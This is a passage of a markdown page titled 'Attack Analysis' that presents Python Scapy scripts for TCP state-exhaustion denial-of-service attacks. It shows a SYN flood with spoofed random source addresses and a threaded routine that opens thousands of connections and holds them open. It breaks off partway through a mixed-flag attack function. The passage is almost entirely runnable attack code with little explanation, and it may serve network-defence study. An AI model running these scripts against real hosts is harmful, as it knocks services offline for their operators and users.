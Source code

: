 ## 🔬 Attack Analysis
### Scapy Script Examples:
```python
from scapy.all import *
import random
import threading
import time

def syn_state_exhaustion(target_ip, target_port, count=10000):
    """SYN state exhaustion attack"""
    for i in range(count):
        src_ip = ".".join(str(random.randint(1,254)) for _ in range(4))
        src_port = random.randint(1024, 65535)
        
        packet = IP(src=src_ip, dst=target_ip) / \
                 TCP(sport=src_port, dport=target_port, flags="S")
        send(packet, verbose=0)
        
        if i % 100 == 0:
            print(f"Sent {i} SYN packets")

def established_state_exhaustion(target_ip, target_port, count=5000):
    """Established connection state exhaustion"""
    def create_connection(conn_id):
        try:
            # Complete 3-way handshake
            src_port = random.randint(1024, 65535)
            
            # SYN
            syn = IP(dst=target_ip) / TCP(sport=src_port, dport=target_port, flags="S", seq=1000)
            syn_ack = sr1(syn, timeout=1, verbose=0)
            
            if syn_ack and syn_ack[TCP].flags == 18:  # SYN-ACK
                # ACK
                ack = IP(dst=target_ip) / TCP(sport=src_port, dport=target_port, 
                                             flags="A", seq=1001, ack=syn_ack[TCP].seq+1)
                send(ack, verbose=0)
                print(f"Established connection {conn_id}")
                
                # Keep connection alive for extended period
                time.sleep(300)  # 5 minutes
                
        except Exception as e:
            print(f"Connection {conn_id} failed: {e}")
    
    threads = []
    for i in range(count):
        thread = threading.Thread(target=create_connection, args=(i,))
        thread.daemon = True
        thread.start()
        threads.append(thread)
        
        if i % 100 == 0:
            time.sleep(1)  # Prevent overwhelming
    
    # Wait for all connections
    for thread in threads:
        thread.join()

def mixed_state_exhaustion(target_ip, target_port, count=8000):
    """Mixed TCP state exhaustion attack"""
    flags_list = ["S", "F", "R", "A", "SF", "SA"]
```